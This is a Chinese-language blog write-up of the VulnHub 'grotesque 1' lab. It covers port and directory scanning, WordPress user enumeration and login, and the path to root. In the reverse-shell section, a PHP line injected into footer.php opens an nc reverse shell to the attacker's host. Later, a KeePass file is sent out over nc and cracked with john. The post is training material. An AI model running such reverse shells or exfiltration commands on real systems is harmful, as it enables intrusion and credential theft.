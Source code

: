 ```yaml
---
layout: post
title: grotesque 1
subtitle: grotesque 1
date: 2025-07-16 15:40
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 环境搭建

[Vuluhub靶场IP问题 - Kyon-H Blog](https://blog.kyon.xin/2025/07/01/Vuluhub%E9%9D%B6%E5%9C%BAIP%E9%97%AE%E9%A2%98/)

### 信息搜集

搜索IP，发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/3k7JpE.png)

扫描端口发现66和80两个http端口

```shell
namp -T4 -A -p- 192.168.163.134
```

![image.png](https://img.ghostliner.top/BRzNRF.png)

扫描目录，发现80端口无内容，扫描66端口

```shell
dirsearch -u http://192.168.163.134:66/
```

![image.png](https://img.ghostliner.top/5eiLQC.png)

访问`changelog.txt`确定`vvmlist`版本为 `16.01.2021`

![image.png](https://img.ghostliner.top/ROdua0.png)

whatweb扫描网站

![image.png](https://img.ghostliner.top/jDnHct.png)

主页发现链接可以下载项目压缩包： <http://192.168.163.134:66/vvmlist.zip>

解压后打开

发现`sshpasswd.png`图片获取疑似用户名：`mossad`

网站主页发现特殊字符串，分析是`Brainfuck`代码

![image.png](https://img.ghostliner.top/r3vmo9.png)

解码得到 `/sshpasswd.png`

查看项目文件，在 `sense.md` 文件找到提示

![image.png](https://img.ghostliner.top/wrbRpk.png)

访问`/lyricsblog` 发现wordpress站点，F12发现提示，访问到图片

![image.png](https://img.ghostliner.top/5SqyhB.png)

![image.png](https://img.ghostliner.top/5Z2fmd.png)

扫描目录

```shell
dirsearch -u http://192.168.163.134/lyricsblog/ -e* -i 200
```

![image.png](https://img.ghostliner.top/FCr09S.png)

发现后台登录地址 `/lyricsblog/wp-login.php`

#### 获取用户名密码

wpscan扫描用户名，获取到 `erdalkomurcu`

```shell
wpscan --url http://192.168.163.134/lyricsblog/ -e u
# 保存
echo "erdalkomurcu" > user.txt
```

浏览站点发现与图片中文字相同的文章

![image.png](https://img.ghostliner.top/5bLaoe.png)

将文章内容保存到 `lyrics.txt` 计算其MD5值

![image.png](https://img.ghostliner.top/EUugLE.png)

转换为大写字符

```shell
echo "bc78c6ab38e114d6135409e44f7cdda2" | tr 'a-z' 'A-Z'
# BC78C6AB38E114D6135409E44F7CDDA2
```

使用用户名：`erdalkomurcu`，密码：`BC78C6AB38E114D6135409E44F7CDDA2` 登陆成功

### 反弹shell

浏览页面找到可以注入PHP代码的位置

![image.png](https://img.ghostliner.top/HVIuKb.png)

在footer.php添加反弹shell代码

```php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');
```

![image.png](https://img.ghostliner.top/dPdexr.png)

kali执行 `nc -lvp 4444` 开启监听，并反弹成功

发现`raphael`用户目录下`user.txt`但无权查看

查找网站配置文件，发现数据库配置

![image.png](https://img.ghostliner.top/IuQs5f.png)

获得用户名：`raphael`，密码：`_double_trouble_`

尝试切换用户，成功

![image.png](https://img.ghostliner.top/A5msB5.png)

查看 `user.txt`文件，发现内容

![image.png](https://img.ghostliner.top/QbUVOK.png)

### root提权

查看隐藏文件，发现 `.chadroot.kdbx`文件

![image.png](https://img.ghostliner.top/iPoLP3.png)

`.kdbx`为密码管理软件 `KeePass`生成的密码文件后缀名

传输到kali进行解密

```shell
# dc-9
nc 192.168.163.132 5555 < .chadroot.kdbx
# kali
nc -lvp 5555 >keepass
# 解密
keepass2john keepass | tee pass.txt
john pass.txt
```

![image.png](https://img.ghostliner.top/sl1TsA.png)

![image.png](https://img.ghostliner.top/zcN2b1.png)

解密得到 `chatter`

打开网站[KeeWeb](https://app.keeweb.info/)上传 `keepass`文件，输入密码 `chatter`，得到4组root密码

![image.png](https://img.ghostliner.top/hf1unI.png)

```
.:.yarak.:.
secretservice
.:.subjective.:.
rockyou.txt
```

使用 `.:.subjective.:.` 登录成功

![image.png](https://img.ghostliner.top/SXIzFt.png)

### 获取flag

![image.png](https://img.ghostliner.top/jFA97D.png)
